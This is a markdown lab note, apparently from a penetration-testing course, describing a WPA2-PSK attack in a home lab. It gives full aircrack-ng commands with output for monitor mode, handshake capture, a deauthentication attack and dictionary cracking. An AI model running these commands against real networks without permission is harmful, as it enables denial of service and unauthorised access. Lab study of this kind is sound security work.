



# 7. Wireless Attacks

## Wireless penetration testing

➡️ A **Wireless Penetration Test** involves the assessment of a wireless network’s security, including `WPA2-PSK` and `WPA2-Enterprise`, by:

- evaluating PSK strength
- reviewing nearby networks
- assessing guest networks
- checking network access to identify vulnerabilities

**Tools**

- Wireless card (`e.g.` Alfa ... / Kali compatible adapters)
  - check [Best Kali Linux Compatible USB Adapters 2024 – WirelesSHack](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html)
- Router
- Laptop

### The Hacking process (WPA2 PSK)

➡️ **Place**

- Place wireless card into monitor mode

➡️ **Discover**

- Discover information about network - Channel, BSSID, etc

➡️ **Select**

- Select network and capture data

➡️ **Perform**

- Perform deauthentication attack (optional)

➡️ **Capture**

- Capture WPA handshake

➡️ **Attempt**

- Attempt to crack the handshake to get the password

---

## WPAPS2 Exploit

> 📌 Check my [OpenWrt & WiFi Exploitation](https://blog.syselement.com/home/home-lab/misc/openwrt-wifi-hack) home lab done with a `TP-Link EAP225 v2` and OpenWrt for a more in depth setup process

[Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=Main) is a complete suite of command line tools to assess WiFi network security.

- Connect the WiFi adapter to the host computer, and connect to the Kali VM

```bash
# Check for card presence
iwconfig

    wlan0     IEEE 802.11  ESSID:off/any  
              Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
```

➡️ [airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)

- **Place** the card into monitor mode

```bash
# Kill unnecessary processes
sudo airmon-ng check kill

# Set card in monitor mode
sudo airmon-ng start wlan0

    PHY	Interface	Driver		Chipset

    phy0	wlan0		rtw_8822bu	ASUSTek Computer, Inc. 802.11ac NIC
            (monitor mode enabled)

# Check
iwconfig
    wlan0     IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
```

➡️ [airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)

- Search the area and **discover** SSIDs
- **Select** the network to capture data from

```bash
mkdir -p $HOME/tcm/peh/wifi && cd $HOME/tcm/peh/wifi

sudo airodump-ng wlan0

# Capture the handshake
sudo airodump-ng -c 6 --bssid 22:66:CF:7D:D6:14 -w capture wlan0
```



➡️ A **Deauthentication (Deauth) Attack** is a type of **Wi-Fi denial-of-service (DoS) attack** where an attacker forcibly disconnects devices from a wireless network by sending **fake deauthentication frames** to the target device or access point, and capture the handshake when the device re-connects to the Wi-Fi network.

➡️ [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

- **Perform** de-auth attack and **capture** WPA handshake

```bash
# De-auth attack
sudo aireplay-ng -0 1 -a 22:66:CF:7D:D6:14 -c 48:E1:E9:E6:91:02 wlan0
```



➡️ [aircrack-ng](https://www.kali.org/tools/aircrack-ng/)

- Attempt **cracking** of the captured handshakes

```bash
ls

capture-01.cap
capture-01.csv
capture-01.kismet.csv
capture-01.kismet.netxml
capture-01.log.csv

# Create a wordlist, with the testing WiFi lab password

# Crack the handshake
aircrack-ng -w wordlist.txt -b 22:66:CF:7D:D6:14 capture-01.cap
```



---

